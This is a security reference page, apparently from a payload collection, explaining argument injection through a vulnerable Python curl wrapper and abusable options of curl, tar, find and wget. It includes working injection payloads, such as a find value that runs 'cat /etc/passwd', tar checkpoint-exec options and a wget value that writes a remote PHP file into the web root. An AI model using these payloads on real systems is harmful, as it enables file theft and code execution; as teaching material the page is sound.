 # Argument Injection
Argument injection is similar to command injection as tainted data is passed to to a command executed in a shell without proper sanitization/escaping.

It can happen in different situations, where you can only inject arguments to a command:

- Improper sanitization (regex)
- Injection of arguments into a fixed command (PHP:escapeshellcmd, Python: Popen)
- Bash expansion (ex: *)

In the following example, a python script takes the inputs from the command line to generate a ```curl``` command:
```py
from shlex import quote,split
import sys
import subprocess

if __name__=="__main__":
    command = ['curl']
    command = command + split(sys.argv[1])
    print(command)
    r = subprocess.Popen(command)
```
It is possible for an attacker to pass several words to abuse options from ```curl``` command
```ps1
python python_rce.py "https://www.google.fr -o test.py" 
```
We can see by printing the command that all the parameters are splited allowing to inject an argument that will save the response in an arbitrary file.
```ps1
['curl', 'https://www.google.fr', '-o', 'test.py']
```
## Summary

* [List of exposed commands](#list-of-exposed-commands)
  * [CURL](#CURL)
  * [TAR](#TAR)
  * [FIND](#FIND)
  * [WGET](#WGET)
* [References](#references)


## List of exposed commands

### CURL
It is possible to abuse ```curl``` through the following options:

```ps1
 -o, --output <file>        Write to file instead of stdout
 -O, --remote-name          Write output to a file named as the remote file
```
In case there is already one option in the command it is possible to inject several URLs to download and several output options. Each option will affect each URL in sequence.

### TAR
For the ```tar``` command it is possible to inject arbitrary arguments in different commands. 

Argument injection can happen into the '''extract''' command:
```ps1
--to-command <command>
--checkpoint=1 --checkpoint-action=exec=<command>
-T <file> or --files-from <file>
```

Or in the '''create''' command:
```ps1
-I=<program> or -I <program>
--use-compres-program=<program>
```
There are also short options to work without spaces:
```ps1
-T<file>
-I"/path/to/exec"
```

### FIND
Find some_file inside /tmp directory.
```php
$file = "some_file";
system("find /tmp -iname ".escapeshellcmd($file));
```

Print /etc/passwd content.
```php
$file = "sth -or -exec cat /etc/passwd ; -quit";
system("find /tmp -iname ".escapeshellcmd($file));
```

### WGET
Example of vulnerable code
```php
system(escapeshellcmd('wget '.$url));
```
Arbitrary file write
```php
$url = '--directory-prefix=/var/www/html http://example.com/example.php';
```


## References

- [staaldraad - Etienne Stalmans, November 24, 2019](https://staaldraad.github.io/post/2019-11-24-argument-injection/)
- [Back To The Future: Unix Wildcards Gone Wild - Leon Juranic, 06/25/2014](https://www.exploit-db.com/papers/33930)
- [TL;DR: How exploit/bypass/use PHP escapeshellarg/escapeshellcmd functions - kacperszurek,  Apr 25, 2018](https://github.com/kacperszurek/exploits/blob/master/GitList/exploit-bypass-php-escapeshellarg-escapeshellcmd.md)
